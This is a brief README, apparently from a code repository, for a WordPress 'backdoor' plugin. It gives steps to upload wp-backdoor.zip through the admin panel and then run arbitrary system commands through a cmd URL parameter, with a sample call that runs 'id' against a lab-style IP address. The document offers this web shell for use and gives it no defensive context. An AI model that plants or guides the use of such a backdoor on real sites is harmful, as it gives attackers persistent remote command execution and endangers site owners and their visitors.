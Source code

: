 #Wordpress Backdoor plugin#

Install the *wp-backdoor.zip* on the wp admin site.

URL: _http://wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=COMMAND_

e.g.: _http://10.11.1.251/wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=id_

#tis #havefun #sander
